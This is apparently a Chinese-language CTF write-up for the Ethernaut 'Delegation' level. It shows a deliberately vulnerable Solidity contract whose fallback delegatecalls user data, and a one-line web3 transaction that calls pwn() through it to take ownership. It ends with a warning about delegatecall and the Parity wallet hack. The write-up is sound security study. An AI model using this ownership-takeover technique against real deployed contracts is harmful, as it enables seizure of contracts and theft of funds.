

hint:

```
The goal of this level is for you to claim ownership of the instance you are given.

  Things that might help

Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
Fallback methods
Method ids
```


solidity：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```


这里我的理解：delegatecall就类似Java的invoke

所以我们msg.data传的是 pwn()的bytes，然后参考wp的进行hash后取。

```js
await contract.sendTransaction({data:web3.utils.sha3("pwn()").slice(0,10)});
```


触发fallback后调用 pwn即可own这个instance。




Usage of `delegatecall` is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The `delegatecall` function is a powerful feature, but a dangerous one, and must be used with extreme care.

Please refer to the [The Parity Wallet Hack Explained](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) article for an accurate explanation of how this idea was used to steal 30M USD.


可以好好看看这篇，从源码角度分析，收获颇丰。